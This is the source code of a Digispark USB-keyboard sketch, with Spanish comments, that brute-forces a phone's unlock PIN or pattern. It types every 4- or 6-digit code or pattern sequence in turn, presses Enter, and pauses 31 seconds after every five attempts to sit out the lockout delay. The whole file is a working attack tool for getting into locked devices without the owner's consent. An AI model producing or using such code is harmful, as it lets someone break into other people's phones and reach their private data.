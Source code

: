 # Digispark3Mex
By: HellPineapple

#include "DigiKeyboard.h"

// Mapeo de teclas para dígitos 0-9
int num[] = {39, 30, 31, 32, 33, 34, 35, 36, 37, 38};

// Mapeo de teclas para los nodos del patrón
int patternNodes[] = {44, 45, 46, 47, 48, 49, 50, 51, 52}; // Ejemplo

// Configuraciones
const int PIN_LENGTH = 4; // Cambiar a 6 para PIN de 6 dígitos
bool usePattern = false; // Cambiar a true para usar el patrón de desbloqueo

// Variables para el PIN
int digits[6] = {0, 0, 0, 0, 0, 0};

// Variables para el patrón
const int PATTERN_LENGTH = 4; // Longitud del patrón de desbloqueo
int pattern[9] = {0, 0, 0, 0, 0, 0, 0, 0, 0}; // Almacena la secuencia del patrón

const int ENTER_KEY = 40;
const int DELAY_TIME = 31000;

int count = 0;

void setup() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  delay(3000);
}

void sendKeys(int* keys, int* values, int length) {
  for (int i = 0; i < length; i++) {
    DigiKeyboard.sendKeyStroke(keys[values[i]]);
  }
  DigiKeyboard.sendKeyStroke(ENTER_KEY); // Enter
  delay(1000);
}

void incrementKeys(int* keys, int length, int max) {
  for (int i = length - 1; i >= 0; i--) {
    keys[i]++;
    if (keys[i] < max) break;
    keys[i] = 0;
  }
}

void loop() {
  if (count == 5) {
    digitalWrite(1, HIGH); // LED on to indicate delay
    DigiKeyboard.sendKeyStroke(ENTER_KEY); // Enter to dismiss any popup
    delay(DELAY_TIME);
    count = 0;
    digitalWrite(1, LOW); // LED off
  }

  if (usePattern) {
    sendKeys(patternNodes, pattern, PATTERN_LENGTH);
    incrementKeys(pattern, PATTERN_LENGTH, 9);
  } else {
    sendKeys(num, digits, PIN_LENGTH);
    incrementKeys(digits, PIN_LENGTH, 10);
  }

  count++;
}
